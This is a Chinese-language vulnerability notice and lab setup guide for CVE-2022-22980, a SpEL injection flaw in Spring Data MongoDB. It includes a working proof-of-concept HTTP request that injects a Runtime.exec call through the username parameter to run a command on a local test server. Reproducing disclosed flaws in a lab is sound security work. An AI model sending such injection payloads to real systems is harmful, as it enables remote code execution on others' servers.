


# 漏洞通告

<https://www.venustech.com.cn/new_type/aqtg/20220621/24001.html>

# 漏洞详情

Spring Data for MongoDB是 Spring Data 项目的一部分，该项目旨在为新的数据存储提供熟悉和一致的基于Spring的编程模型，同时保留存储的特定特征和功能。
6月20日，VMware发布安全公告，修复了Spring Data MongoDB中的一个SpEL 表达式注入漏洞（CVE-2022-22980），该漏洞的CVSSv3评分为8.2。

Spring Data MongoDB应用程序在对包含查询参数占位符的SpEL表达式使用@Query或@Aggregation注解的查询方法进行值绑定时，如果输入未被过滤，则容易受到SpEL注入攻击。

# 漏洞环境

该环境使用如下：

1. 下载源代码通过idea打开，启动该项目，springboot启动在7777端口（通过src/main/resources/application.properties可以更改端口等相关配置），如图1：


2. 通过POC脚本验证，或者可以发送如下请求，如图2所示即成功

注：以下请求为 Windows 弹出计算器， Mac 可改成 exec('open+-a+calculator.app')

```
GET /v1/user/get?username=T(java.lang.Runtime).getRuntime().exec('calc') HTTP/1.1
Host: localhost:7777
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 2


```



参考(搬运)：

- <https://github.com/jweny/cve-2022-22980-exp>
